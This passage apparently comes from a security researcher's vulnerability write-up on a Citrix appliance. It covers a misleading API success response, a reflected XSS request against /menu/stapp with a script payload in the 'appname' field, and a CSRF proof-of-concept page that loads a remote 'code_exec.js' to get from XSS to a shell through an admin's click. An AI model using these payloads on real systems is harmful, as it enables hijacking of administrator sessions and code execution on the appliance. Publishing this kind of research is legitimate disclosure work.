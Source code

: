 ```http

<?xml version="1.0"?>
<nitroResponse><errorcode>0</errorcode><message>Done</message><severity>NONE</severity></nitroResponse>
```

Indicating that everything is okay, and that authentication passed. In reality nothing actually happened, but other functions using the errorcode to validate if an API call succeeded will falsely assume success. Haven't found anything good to use this for though. Oh well, that's life. Moving on!

### XSS
I don't think I need to spend a lot of time on explaining to you what XSS is. So here is the request:

```http
POST /menu/stapp HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 96
Content-Type: application/x-www-form-urlencoded
X-NITRO-USER: henk

sid=254&pe=1,2,3,4,5&appname=%0a</title><script>alert('xss')</script>&au=1&username=nsroot
```

It's really not that special, but went ahead and made an XSS to shell PoC just for funsies. Only works if you get an admin to click obviously.

<a href="http://www.youtube.com/watch?feature=player_embedded&v=1_D4_9BKHSc" target="_blank"><img src="http://img.youtube.com/vi/1_D4_9BKHSc/0.jpg" width="240" height="180" border="10" /></a>

And here is the code if you feel really bored:

`csrf.html`
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://citrix.local/menu/stapp" method="POST">
      <input type="hidden" name="sid" value="254" />
      <input type="hidden" name="pe" value="1,2,3,4,5" />
      <input type="hidden" name="appname" value="%0a</title><script src='http://localhost:9090/code_exec.js'></script>" />
      <input type="hidden" name="au" value="1" />
      <input type="hidden" name="username" value="nsroot" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

